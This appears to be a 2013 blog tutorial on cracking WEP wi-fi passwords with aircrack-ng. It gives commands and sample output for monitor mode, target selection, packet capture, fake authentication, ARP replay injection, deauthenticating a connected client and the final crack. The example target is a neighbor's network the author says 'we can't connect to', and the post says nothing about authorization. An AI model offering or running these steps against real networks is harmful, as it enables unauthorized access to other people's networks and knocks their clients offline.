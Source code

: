 title: WEP Passwords with Aircrack-ng
date: 2013-02-09

So I was bored, and decided to learn the basics of using `aircrack-ng`, the
wi-fi password cracker. Now I'm bored again, so I'm writing about it.

## Preface

What we'll do is capture freely flowing information from a network we can't
connect to, and crunch that data with the `aircrack` tool in the hopes of
deducing the password.

Your interface's names may vary. Use `iwconfig`. For other names and values,
I'll give examples for you to tailor.

## Step 0: install the toolset

In Debian:

    :::bash
    ~# apt-get install aircrack-ng
    
## Step 1: monitoring

Before we can start sniffing the air for packets, we need to put the network
interface in monitor mode. Otherwise, it will restrict itself to packets
addressed to us. We want to be all ears.

Before you do this, disconnect `wlan0`. Ready? Now:

    :::bash
    ~# airmon-ng start wlan0

You should see something like this:

    Interface   Chipset     Driver

    wlan0       Unknown     brcmsmac - [phy0]
                    (monitor mode enabled on mon0)
    
## Step 2: selecting a target

We want to catch a glimpse of what's going on with all reachable networks. Run:

    :::bash
    ~# airodump-ng mon0

The output may be confusing at first glance. Let's go over the important bits:

The top line shows the current channel being listened to (`CH n`), and it
should be hopping from channel to channel.

The table below lists discovered access points.

    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    92:FC:11:E1:FF:2F  -74      140      120    0   9  54e. WEP  WEP         Neig

You'll probably recognize the names. You're looking for a network with:

1. `WEP` encryption (WPA is basically brute force, and thus boring to wait
for).

2. An increasing number of `Data` packets, meaning that a client is connected
and active. These are the packets we'll be sniffing.


The bottom table shows clients. If there's `#Data` flowing around, that
probably means you'll see somebody here.

Once you've picked your target, save away:

1. `BSSID` (MAC address), `CH` (wi-fi channel) and `ESSID` (name) from the top
table.

2. `STATION` (MAC address) of an active client in the second table.

The second bit is not necessary, but it will speed things up **considerably**.

## Step 3: capture packets

Let's run `airodump` again, but this time restricting ourselves to our target
network and dumping everything down:

    :::bash
    ~# airodump-ng mon0 --channel 6 --bssid 00:1A:70:85:9D:11 -w logfile

Again you'll see it capturing packets, but this time it should only list this
particular network and its clients.

You'll want to let it capture between `40.000` and `80.000` data packets. You
may need more, you may need less. This is not guaranteed to work on every try.

Leave this running.

## Step 3.5: speed up the capture

This may be a slow process on low network activity, but we may be able to speed
it up quite a bit by injecting packets.

Basically, since WEP packets are replayable (you can bounce them back and forth
and they will remain valid), we may be able to catch an [ARP](http://en.wikipedia.org/wiki/Address_Resolution_Protocol)
packet and replay it endlessly to generate traffic we can analyze.

First, you may want to try if injection works on every end (your drivers too
must be compliant here) by faking an authentication with the access point:

    :::bash
    ~# aireplay-ng wlan0 --fakeauth 0 -e "Neighbor" -b 92:FC:11:E1:FF:2F

Fortunately, you'll see this:

    Sending Authentication Request
    Authentication successful
    Sending Association Request
    Association successful :-)
    
This will not generate an ARP packet we can catch, we still need a real client
to use as source. So, if it's working, grab the MAC address of the client you
got earlier (`STATION` in the lower table?) and run:

    :::bash
    aireplay-ng --arpreplay -b 92:FC:11:E1:FF:2F -s <client MAC> wlan0
    
You now need to wait for an ARP packet to show up. When it does, you'll immediately
notice a **massive** increase in the rate of packets captured by `airodump`.

If the wait turns out to be long (this depends on your patience), we have one more
shot: injecting a deauthentication for the client, forcing him to emmit an ARP packet
`aireplay` can sniff.

    :::bash
    aireplay-ng --deauth 5 -b 92:FC:11:E1:FF:2F -d <client MAC> wlan0

That'll do it 5 times by itself, and you can re-run if it doesn't work right away.
Again, this is not guaranteed to succeed.

## Step 4: crack the password

When you decide to stop `airodump`, you'll see `logfile-01.cap` (or an
incrementally numbered variant) among the files produced. Run `aircrack`:

    :::bash
    aircrack-ng --bssid 92:FC:11:E1:FF:2F logfile-01.cap

With any luck, you'll have your password. Cheers!
